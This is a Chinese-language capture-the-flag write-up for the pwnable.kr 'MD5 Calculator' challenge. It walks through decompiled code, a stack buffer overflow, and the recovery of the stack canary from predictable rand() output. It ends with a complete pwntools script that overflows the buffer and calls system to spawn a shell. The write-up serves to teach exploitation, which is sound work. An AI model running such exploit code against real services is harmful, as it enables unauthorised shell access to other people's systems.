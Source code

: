# MD5 Calculator

```
We made a simple MD5 calculator as a network service.
Find a bug and exploit it to get a shell.

Download : http://pwnable.kr/bin/hash
hint : this service shares the same machine with pwnable.kr web service

Running at : nc pwnable.kr 9002
```

直接拖进 `ida` `F5` 得到
```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned int v3; // eax
  int v5; // [esp+18h] [ebp-8h]
  int v6; // [esp+1Ch] [ebp-4h]

  setvbuf(stdout, 0, 1, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("- Welcome to the free MD5 calculating service -");
  v3 = time(0);
  srand(v3);
  v6 = my_hash();
  printf("Are you human? input captcha : %d\n", v6);
  __isoc99_scanf("%d", &v5);
  if ( v6 != v5 )
  {
    puts("wrong captcha!");
    exit(0);
  }
  puts("Welcome! you are authenticated.");
  puts("Encode your data with BASE64 then paste me!");
  process_hash();
  puts("Thank you for using our service.");
  system("echo `date` >> log");
  return 0;
}

int my_hash()
{
  signed int i; // [esp+0h] [ebp-38h]
  char v2[4]; // [esp+Ch] [ebp-2Ch]
  int v3; // [esp+10h] [ebp-28h]
  int v4; // [esp+14h] [ebp-24h]
  int v5; // [esp+18h] [ebp-20h]
  int v6; // [esp+1Ch] [ebp-1Ch]
  int v7; // [esp+20h] [ebp-18h]
  int v8; // [esp+24h] [ebp-14h]
  int v9; // [esp+28h] [ebp-10h]
  unsigned int v10; // [esp+2Ch] [ebp-Ch]

  v10 = __readgsdword(0x14u);
  for ( i = 0; i <= 7; ++i )
    *(_DWORD *)&v2[4 * i] = rand();
  return v6 - v8 + v9 + v10 + v4 - v5 + v3 + v7;
}

unsigned int process_hash()
{
  int v0; // ST14_4
  char *ptr; // ST18_4
  char v3; // [esp+1Ch] [ebp-20Ch]
  unsigned int v4; // [esp+21Ch] [ebp-Ch]

  v4 = __readgsdword(0x14u);
  memset(&v3, 0, 0x200u);
  while ( getchar() != 10 )
    ;
  memset(g_buf, 0, sizeof(g_buf));
  fgets(g_buf, 1024, stdin);
  memset(&v3, 0, 0x200u);
  v0 = Base64Decode(g_buf, (int)&v3);
  ptr = calc_md5((int)&v3, v0);
  printf("MD5(data) : %s\n", ptr);
  free(ptr);
  return __readgsdword(0x14u) ^ v4;
}
```

先看逻辑：

`main` 函数： 大致就是取当前时间作为随机种子,然后调用`myhash`函数，把调用结果与接下来输入的值进行比对. 如果相同就进行下一步 `process_hash` ,然后再执行 `system("echo `date` >> log");`

`ny_hash` 函数: 定义一堆局部变量,然后一直 `rand` 取值赋值给它们， 然后做一些计算赋值，这里我们发现 `unsigned int v10; // [esp+2Ch] [ebp-Ch]` `v10` 也参与了计算，这个是 `canary`
(其实`canary`的位置有时候并不是固定的，大致就是在`ebp -0x8` `ebp -0xc`) 这几个啥的位置

`process_hash` 函数: 读 `stdin` 到 `g_buf` 里,然后`base64decode`到`v3`里，然后又计算 `v3` 的 `md5`, 输出.(这里存在栈溢出`1024 > 0x200`)

试着运行一下
```
➜  md5-calculator (attenuation@Attenuation-hp) echo 'hello' | base64
aGVsbG8K
➜  md5-calculator (attenuation@Attenuation-hp) ./hash
- Welcome to the free MD5 calculating service -
Are you human? input captcha : -629909350
-629909350
Welcome! you are authenticated.
Encode your data with BASE64 then paste me!
aGVsbG8K
MD5(data) : b1946ac92492d2347c6235b4d2611184
Thank you for using our service.
➜  md5-calculator (attenuation@Attenuation-hp)
```

checksec查看保护
```
gdb-peda$ checksec 
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
开启了 `canary` 和 `栈不可执行` 保护.
我们函数里面也有 `system` 的函数调用，直接利用`my_hash`得出程序的`canary`，然后覆盖 `process_hash` 函数的返回地址. 至于`/bin/sh`呢,我们利用现成的`process_hash`的输入`g_buf`指定的地址(这个在.data节)，然后给`system`函数赋 `/bin/sh` 的地址

ps : 这里有一个坑，我们不能直接把数据写进第一次输入的地方让他`decode`解出来，因为大部分操作系统都是开启 `alsr` 的, 栈地址基本都是难以确定的 (

直接上write-up: (直接打因为时间问题可能会有坑，canary过不了，自己稍微改一下去他们本机打,应该会过了)

```
from pwn import *
context(arch='i386',os='linux',log_level='debug')
import ctypes
import sys

ll = ctypes.cdll.LoadLibrary
lib = ll('libc.so.6')
elf_s = ELF('./hash')

if sys.argv[1] == 'connect':
    bin = remote('pwnable.kr',9002)
else:
    bin = process('./hash')

lib.srand(lib.time(0)) //种子相同的话就可以拿到一样的随机数了
v2 = lib.rand()
v3 = lib.rand()
v4 = lib.rand()
v5 = lib.rand()
v6 = lib.rand()
v7 = lib.rand()
v8 = lib.rand()
v9 = lib.rand()


system_plt = elf_s.symbols['system']
process_hash = elf_s.symbols['process_hash']
bin.recvuntil(': ')
sum_v = int(bin.recvuntil('\n'))
canary = sum_v + v8 + v5 - v6 - v9 - v4 - v3 - v7
canary = canary & 0xffffffff
log.success('canary is : '+ hex(canary))
payload = 'a'*0x200
payload += p32(canary) + 'a'*0xc
payload += p32(process_hash) + p32(system_plt) + 'a'*4 + p32(0x0804B0E0)
payload = base64.b64encode(payload)
bin.sendline(str(sum_v))
bin.sendline(payload)
bin.sendline('/bin/bash')
bin.recvuntil('\n')
#gdb.attach(bin)
bin.interactive()
```
